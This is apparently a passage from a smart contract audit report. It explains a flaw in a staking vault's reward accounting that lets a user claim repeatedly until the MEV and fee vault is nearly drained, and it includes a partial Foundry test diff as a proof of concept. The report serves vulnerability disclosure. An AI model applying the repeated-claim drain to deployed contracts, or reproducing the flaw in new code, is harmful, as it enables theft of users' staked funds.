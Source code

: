 This means the first time a user will claim their rewards they will get the correct amount and the correct value will be stored in the `claimed[_user][_token]`.  When extra ETH is recieved from the MEV and fees rewards and the user claims their reward again, the claimed amount will only reflect the last claimed amount. As a result they can then repeatedly claim untill the MEV and Fee vault is almost depleted.

## Proof of Concept
Following modification to the existing `StakingFundsVault.t.sol` will provide a test to demonstrate the issue:
```diff
diff --git a/test/foundry/StakingFundsVault.t.sol b/test/foundry/StakingFundsVault.t.sol
index 53b4ce0..4db8fc8 100644
--- a/test/foundry/StakingFundsVault.t.sol
+++ b/test/foundry/StakingFundsVault.t.sol
@@ -4,6 +4,7 @@ import "forge-std/console.sol";
 
 import { StakingFundsVault } from "../../contracts/liquid-staking/StakingFundsVault.sol";
 import { LPToken } from "../../contracts/liquid-staking/LPToken.sol";
+import { SyndicateRewardsProcessor} from "../../contracts/liquid-staking/SyndicateRewardsProcessor.sol";
 import {
     TestUtils,
     MockLSDNFactory,
@@ -417,4 +418,73 @@ contract StakingFundsVaultTest is TestUtils {
         assertEq(vault.totalClaimed(), rewardsAmount);
         assertEq(vault.totalRewardsReceived(), rewardsAmount);
     }
+
+    function testRepetitiveClaim() public {
+        // register BLS key with the network
+        registerSingleBLSPubKey(accountTwo, blsPubKeyFour, accountFive);
+
+        vm.label(accountOne, "accountOne");
+        vm.label(accountTwo, "accountTwo");
+        // Do a deposit of 4 ETH for bls pub key four in the fees and mev pool
+        depositETH(accountTwo, maxStakingAmountPerValidator / 2, getUint256ArrayFromValues(maxStakingAmountPerValidator / 2), getBytesArrayFromBytes(blsPubKeyFour));
+        depositETH(accountOne, maxStakingAmountPerValidator / 2, getUint256ArrayFromValues(maxStakingAmountPerValidator / 2), getBytesArrayFromBytes(blsPubKeyFour));
+
+        // Do a deposit of 24 ETH for savETH pool
+        liquidStakingManager.savETHVault().depositETHForStaking{value: 24 ether}(blsPubKeyFour, 24 ether);
+
+        stakeAndMintDerivativesSingleKey(blsPubKeyFour);
+
+        LPToken lpTokenBLSPubKeyFour = vault.lpTokenForKnot(blsPubKeyFour);
+
+        vm.warp(block.timestamp + 3 hours);
+
+        // Deal ETH to the staking funds vault
+        uint256 rewardsAmount = 1.2 ether;
+        console.log("depositing %s wei into the vault.\n", rewardsAmount);
+        vm.deal(address(vault), rewardsAmount);
+        assertEq(address(vault).balance, rewardsAmount);
+        assertEq(vault.previewAccumulatedETH(accountOne, vault.lpTokenForKnot(blsPubKeyFour)), rewardsAmount / 2);
+        assertEq(vault.previewAccumulatedETH(accountTwo, vault.lpTokenForKnot(blsPubKeyFour)), rewardsAmount / 2);
+
+        logAccounts();
+
+        console.log("Claiming rewards for accountOne.\n");
```